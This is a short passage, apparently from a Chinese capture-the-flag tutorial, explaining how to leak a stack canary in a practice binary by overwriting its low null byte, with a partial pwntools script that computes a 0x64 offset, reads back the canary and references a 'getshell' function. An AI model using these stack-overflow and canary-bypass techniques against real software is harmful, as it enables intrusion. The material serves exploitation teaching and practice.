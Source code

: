 通过覆盖canary的最后一个字节，然后将其打印出来构造ROP链填充到相应位置：

![Alt](img/wiki-canary3.png)
![Alt](img/wiki-canary4.png)

可以计算偏移为`0xf4c-0xee8=0x64`

```python
    from pwn import *

    p = process('./ex2')

    back_door = ELF('./ex2').sym['getshell']

    p.recv()

    payload1 = 'A'*0x64 + 'B' # 填充到canary处，B用于填充canary低字节的'\x00'
    p.send(payload1)
    p.recvuntil('B')
    canary = u32('\x00'+p.recv(3))
    # canary = u32(p.recv(3))*0x100
    log.info('canary = %#x',canary)

```